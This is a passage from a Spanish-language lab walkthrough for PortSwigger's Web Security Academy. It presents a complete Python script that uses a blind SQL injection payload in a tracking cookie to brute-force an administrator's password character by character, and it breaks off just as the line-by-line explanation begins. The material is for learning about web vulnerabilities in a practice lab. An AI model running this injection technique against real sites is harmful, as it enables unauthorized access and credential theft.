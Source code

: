 Esto es un poco cansado, probar letra por letra, y no solo pueden ser letras, ya que el laboratorio dice que igual puede contener números, por lo que es un texto alfanumérico, así que para facilitar esto vamos a crear un script en python que nos automaticé todo esto.

<br>

<div id='id1010' />

# Creando un script en python para automatizar la enumeración de la inyección SQL ciega

Nuestro código terminado se ve así:

```py
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#CTRL+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a8a00dc03454998c09f90e700180095.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

    password = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Password")

    for position in range(1,21):

        for character in characters:

            cookies = {
                'TrackingId': "EkppvYfQrcHQK79N' AND (SELECT SUBSTRING(password,%d,1) FROM users WHERE username='administrator')='%s" % (position, character),
                'session': '6Ditk4mK0zirtmo81PYSbUwnGni78Aqf'
            }

            p1.status(cookies['TrackingId'])

            r = requests.get(main_url, cookies=cookies)

            if "Welcome back!" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeRequest()
```
La primera línea del código es esto:
